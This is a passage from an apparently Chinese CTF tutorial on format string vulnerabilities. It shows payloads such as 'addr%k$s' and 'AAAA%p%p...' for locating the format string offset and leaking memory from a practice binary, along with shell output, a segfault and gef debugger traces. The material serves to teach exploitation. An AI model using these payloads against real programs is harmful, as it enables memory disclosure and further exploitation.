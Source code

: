 可以看出在栈上的第二个变量就是我们的格式化字符串地址0xffffcd10，同时该地址存储的也确实是是"%s"格式化字符串内容。

那么由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第k个参数。那我们就可以通过如下的方式来获取某个指定地址addr的内容。

```
addr%k$s
```

> 注： 在这里，如果格式化字符串在栈上，那么我们就一定确定格式化字符串的相对偏移，这是因为在函数调用的时候栈指针至少低于格式化字符串地址8字节或者16字节。

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

```text
[tag]%p%p%p%p%p%p...
```

一般来说，我们会重复某个字符的机器字长来作为tag，而后面会跟上若干个%p来输出栈上的内容，如果内容与我们前面的tag重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符，同时还是利用之前编译好的程序，如下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70250xffaab2240xf77360000xaec7%
```

由0x41414141处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第5个参数，但是是格式化字符串的第4个参数。我们可以来测试一下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%4$s
00000001.22222222.ffffffff.%4$s
[1]    61439 segmentation fault (core dumped)  ./leakmemory
```

可以看出，我们的程序崩溃了，为什么呢？这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，，所以程序就崩溃了。具体的可以参考下面的调试。

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd20  →  "%4$s"
0xffffcd14│+0x08: 0xffffcd20  →  "%4$s"
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: "%4$s"	 ← $eax
0xffffcd24│+0x18: 0xffffce00  →  0x00000000
0xffffcd28│+0x1c: 0x000000e0
───────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7e44670 → Name: __printf(format=0xffffcd20 "%4$s")
[#1] 0x80484ce → Name: main()
────────────────────────────────────────────────────────────────────────────────
gef➤  help x/
Examine memory: x/FMT ADDRESS.
ADDRESS is an expression for the memory address to examine.
FMT is a repeat count followed by a format letter and a size letter.
Format letters are o(octal), x(hex), d(decimal), u(unsigned decimal),
  t(binary), f(float), a(address), i(instruction), c(char), s(string)
  and z(hex, zero padded on the left).
Size letters are b(byte), h(halfword), w(word), g(giant, 8 bytes).
The specified number of objects of the specified size are printed
according to the format.
```